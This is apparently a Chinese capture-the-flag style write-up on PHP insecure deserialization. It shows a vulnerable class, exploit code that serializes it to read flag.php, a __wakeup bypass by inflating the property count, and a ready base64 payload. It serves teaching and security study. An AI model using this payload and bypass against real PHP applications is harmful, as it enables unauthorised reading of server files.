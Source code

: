 # Deserialize

不安全的反序列化漏洞：


## 概念
对象(```object```)从可变到不可变的过程。   例如java的```writeObject```. 一旦对象被序列化，就无法在Java程序中更改。
php也有```serialize```函数。
不太形象的类比： 序列化就是JavaScript object到json的过程、反之反序列化是json到JavaScript的过程。


## 利用
一般来说利用的是反序列化，就是将修改过的恶意序列化之后的东西让程序读取，达到各种目的。
一般白盒测试用的较多


## 实战 
<br>

### 网站代码

有网站代码，目的是利用反序列化漏洞得到网站根目录下的 ```flag.php```.
网站代码：
```php
<?php
class SoFun {
	protected $file='index.php';
	function __destruct() {
		if(!empty($this->file)) {
			if(strchr($this-> file,"\\")===false && strchr($this->file, '/')===false)
				show_source(dirname (__FILE__).'/'.$this ->file);
		}
		else {
			die('Wrong filename.');
		}
	}

	function __wakeup() {
		$this-> file='index.php';
	}
	public function __toString() {
		return '' ;
	}
}
if (!isset($_GET['file'])) {
	show_source('index.php');
} 
else {
	$file=base64_decode( $_GET['file']);
	echo unserialize($file );
}
?>
```


<br>
<br>

### 编写exp
exp代码：
```php

<?php
class SoFun {
	protected $file='flag.php';
//	function __destruct() {
//		if(!empty($this->file)) {
//		if(strchr($this-> file,"\\")===false && strchr($this->file, '/')===false)
//		show_source(dirname (__FILE__).'/'.$this ->file);
//		}
	//	else{
//			die('Wrong filename.');
	//	}
//	}
}


$C1= new SoFun();
$data=serialize($C1);
echo $data;
echo base64_encode($data);
?>



```

网站代码中需要想办法走这一分支：
```php
else {
	$file=base64_decode( $_GET['file']);
	echo unserialize($file);
}

```

所以?file=xxx
xxx需要是base64编码的序列化过的一个string，exp获取了flag.php内容序列化后的base64编码的字符串。
将字符串传入网站对应参数中，然而需要绕过魔法函数 ```__wakeup``` . ```__wakeup```会将```file```替换成```index.php```,不是想要的结果。

```__destruct```函数才是读取文件的源代码.


### 绕过```__wakeup```函数方法

```__wakeup```函数反序列化函数触发的魔法函数，会在```unserialize```之前调用。

其它魔法函数可以看php官网.

php序列化后的字符串中会有一个表示当前类有几个变量的数字，把该数字改到大于实际变量个数就可以绕过 ```__wake_up```魔法函数。


exp.php得到base64的flag.php的data，扔到testweb.php?file=base64(data)  
base64(data)代表base64之后的data

即可获得flag.php源码
``` $(data) = Tzo1OiJTb0Z1biI6Mjp7Uzo3OiJcMDAqXDAwZmlsZSI7czo4OiJmbGFnLnBocCI7fQ== ```

![[Pasted image 20211209191018.png]]

flag.php内容：

```php

<?php  
 flag  
?>

```




![[Pasted image 20211209191245.png]]
![[Pasted image 20211209192218.png]]





